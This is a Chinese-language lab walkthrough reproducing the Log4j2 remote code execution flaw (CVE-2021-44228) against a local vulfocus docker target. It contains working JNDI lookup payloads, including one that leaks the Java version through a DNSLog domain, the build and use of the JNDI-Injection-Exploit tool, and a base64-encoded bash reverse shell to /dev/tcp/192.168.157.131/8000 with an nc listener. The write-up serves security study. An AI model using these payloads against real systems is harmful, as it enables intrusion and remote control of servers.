# log4j2 远程代码执行漏洞复现（CVE-2021-44228）
## 实验环境
- 靶机IP:192.168.157.131
- 攻击机IP:192.168.157.131
  
## vulfocus环境搭建
安装docker并重新配置镜像源后，克隆黄大师仓库，一键搭建漏洞实验环境
```bash
git clone https://github.com/c4pr1c3/ctf-games.git
cd ctf-games/fofapro/vulfocus
bash start.sh
```


访问192.168.157.131，在镜像管理或者终端中拉取镜像
```bash
docker pull vulshare/nginx-php-flag:latest
docker pull vulfocus/struts2-cve_2020_17530:latest
docker pull vulfocus/weblogic-cve_2019_2725:latest
docekr images
```



## DNSLog测试
启动环境后，使用 !(DNSLog)[http://dnslog.cn/] 平台获取一个域名bovzn6.dnslog.cn
使用该子域名构造payload:
```
${jndi:ldap://bovzn6.dnslog.cn}
```
通过点击靶场环境中?????发现请求文件hello并给参数payload传入111


将刚刚获取的子域名进行url编码获得：
```
%24%7bjndi%3aldap%3a%2f%2fbovzn6.dnslog.cn%7d
```

发送请求：
```
http://192.168.157.131:19719/hello?payload=%24%7bjndi%3aldap%3a%2f%2fbovzn6.dnslog.cn%7d
```


回到 DNSLog 平台，刷新记录看到 DNSLog 平台成功接收到解析记录


接下来构造payload获取java版本
```
${jndi:ldap://${sys:java.version}.bovzn6.dnslog.cn}
```
进行url编码获得：
```
%24%7bjndi%3aldap%3a%2f%2f%24%7bsys%3ajava.version%7d.bovzn6.dnslog.cn%7d
```


进行同样操作后返回DNSLog刷新纪录，可以发现执行了sys:java.version 命令
成功获取java版本号为1.8.0_312


## 漏洞利用
### JNDI注入工具安装
```bash
git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
```

切换到 JNDI-Injection-Exploit 目录,编译安装
```
cd JNDI-Injection-Exploit
mvn clean package -DskipTests
```


## 工具用法
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "想要执行的命令" -A "攻击机的ip"
```

## 构造反弹shell命令
对下面的指令进行base64编码
```
bash -i >& /dev/tcp/192.168.157.131/8000 0>&1
```
获得
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1Ny4xMzEvODAwMCAwPiYx}|{base64,-d}|{bash,-i}
```


进入target目录后执行下面的指令：
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1Ny4xMzEvODAwMCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.157.131"
```
成功部署rmi和ldap的站点并且得到payload路径


## 开启端口监听
新建一个终端，监听对应端口，此处我使用的是8000
```bash
nc -lvvp 8000
```

## 启动JNDI工具


